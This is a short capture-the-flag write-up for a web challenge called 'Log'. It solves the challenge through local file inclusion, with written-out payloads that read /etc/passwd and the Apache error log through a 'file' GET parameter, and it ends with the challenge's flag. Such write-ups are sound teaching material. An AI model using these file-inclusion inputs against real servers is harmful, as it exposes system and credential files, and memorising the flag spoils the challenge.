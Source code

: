 ## Challenge: Log

### Description: GET the right file.

### Solution:

 - opening the link we find many pages, checking the source we find click-here_00.php placed differently in position.
 - checking checking click-here_00.php
 > You got the right 'file' :)
 - here ```file``` is highlighted and in description we see ```GET```
 - using file as parameter  
 > click-here_00.php/?file=/etc/passwd
 - we get access to file, `Local file inclusion vulnerability` 
 - using php filter check the source code of click-here_00.php, we find
 > There is some error in logs try to access it.
 - This says to check the error.log
 - server runs on apache2, so check the error.log of apache2
 > click-here_00.php/?file=/var/log/apache2/error.log
 - on the top we find something odd
 > `----------]<-<---<-------<---------->>>>+[<<-----------------,<<--,>>,<<------,>>,<<+++++++++++,>>,<<------,>>,<<------------,++++,++,++++++++,---------------,++++++++++++,-,-----,+++++++,>---------------,<-------,+++++++++,,+,>>+,<<----------------,----,++++,`
 - this is `reversefuck language` decoding it
 > /f/l/a/g/somethingUneed.txt
 - check that file, we get the flag.
 > click-here_00.php/?file=/f/l/a/g/somethingUneed.txt
 
 ### Flag: `BSDCTF{L0cal_f1L3_InClu$10N_1$_v3RY_P015On0u$}`
